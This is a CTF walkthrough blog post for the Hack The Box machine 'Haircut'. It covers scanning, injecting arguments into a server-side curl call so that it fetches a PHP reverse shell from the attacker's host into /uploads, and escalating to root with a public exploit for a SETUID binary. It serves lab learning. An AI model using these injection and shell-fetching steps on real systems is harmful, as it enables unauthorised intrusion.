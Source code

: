 ```yaml
---
layout: PostSimple
date: 2020-01-20
title:     "Hack The Box - Haircut"
tags: ['linux','medium','curl']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/1.png)

We are going to pwn Haircut from Hack The Box.

Link :[https://www.hackthebox.eu/home/machines/profile/21](https://www.hackthebox.eu/home/machines/profile/21)


Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/2.png)
Looks like normal webpage, Lets try bruteforcing the directories and look for anything interesting.

## Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.24
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/01/21 18:36:57 Starting gobuster
===============================================================
/index.html (Status: 200)
/uploads (Status: 301)
/test.html (Status: 200)
/hair.html (Status: 200)
/exposed.php (Status: 200)
===============================================================
2020/01/21 18:39:38 Finished
===============================================================
```

``/exposed.php`` 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/3.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/4.png)
``curl`` is running in the server so lets interrupt the request in the ``burp`` and see what going on.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/5.png)
So by using ``curl`` we need to inject our payload inorder to get shell.

There is a way to upload reverse shell to the box using ``curl`` 
I started my HTTP server with ``Reverse PHP shell `` And we already know there is ``/uploads`` directory. 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/6.png)

```
http://10.10.14.17:8000/shell.php -o /var/www/html/uploads/shell.php

-o will Write the file in /uploads/
```
Now lets start our listener and open the ``shell.php`` in the ``/uploads``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/7.png)

We got the shell.


## Privilege Escalation:

I upload my Linux Enumeration Script and I found an SETUID binary
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/8.png)

There is an exploit available for this version.

> https://www.exploit-db.com/exploits/41154

Downloaded the script and tried executing it leads to some error , So I split the script into 3

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/9.png)

Did the commands given from the script as manually.

> gcc -fPIC -shared -ldl -o exploit.so exploit.c 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/10.png)

>gcc -o rootshell rootshell.c

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/11.png)

Then I uploaded all the scripts to the box
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/12.png)

And executed the last script ``root.sh``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/13.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/14.png)
Got Root






